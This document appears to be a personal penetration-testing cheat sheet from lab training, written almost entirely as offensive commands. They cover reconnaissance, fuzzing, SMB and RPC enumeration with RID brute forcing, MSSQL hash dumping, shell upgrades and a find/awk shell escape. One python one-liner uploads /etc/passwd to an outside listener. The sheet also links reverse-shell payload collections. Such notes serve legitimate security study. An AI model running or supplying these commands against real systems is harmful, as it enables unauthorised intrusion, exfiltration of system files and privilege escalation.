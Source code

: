 # Cheet Sheet

## Crawling
### python
python3 ReconSpider.py http://inlanefreight.com

## Upload
### python 1-liner
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'

## Fuzzing

### fuff
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://94.237.48.60:57525/ -H "Host: FUZZ.inlanefreight.htb" -fs 116


### Gobuster
gobuster dir -u http://10.10.10.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt

## Payload
cheetsheet1:[https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/]
cheetsheet2:[https://github.com/swisskyrepo/PayloadsAllTheThings]
cheetsheet3:[https://gtfobins.github.io]

## Privilege Escalation
LinPEAS

## Upgrade Shell
python -c 'import pty; pty.spawn("/bin/bash")'

## Nmap

### Convert results of nmap into html
nmap -sC -sV 10.10.10.10 -oX taregt.xml
xsltproc target.xml -o target.html

## SMB
smbclient -N -L //<FQDN/IP>
smbclient //<FQDN/IP>/<share>

## RPClient
rpcclient -U "" <FQDN/IP>
srvinfo
### Brute Forcing User RIDs
for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done

## NFS
sudo mount -t nfs 10.129.14.128:/ ./target-NFS/ -o nolock

## DNS
### Bruteforce to search subdomain
dnsenum --dnsserver <nameserver> --enum -p 0 -s 0 -o found_subdomains.txt -f ~/subdomains.list <domain.tld>

## SMTP
### Existing User 
msfconsole
use auxiliary/scanner/smtp/smtp_enum
set RHOSTS <target_ip>
set USER_FILE /path/to/userlist.txt
run

## IMAP/POP3
### nmap specific port
nmap -sV -sC 10.129.160.110 -p110,143,993,995

### Search the mailbox on the imapserver 
a004 FETCH 1:* (BODY.PEEK[HEADER.FIELDS (FROM SUBJECT)])
### If you find the above command read the full mail including custom header
a004 FETCH 1 (RFC822)

## MS-SQL
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.149.195
### Connect with pyhon
impacket-mssqlclient backdoor:Password1@10.129.149.195 -windows-auth

## Oracle-TNS
sudo nmap -p1521 -sV 10.129.205.19 --open --script oracle-sid-brute

### Windows RDP
xfreerdp /v:STMIP /u:htb-student /p:HTB_@cademy_stdnt!

## Find shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;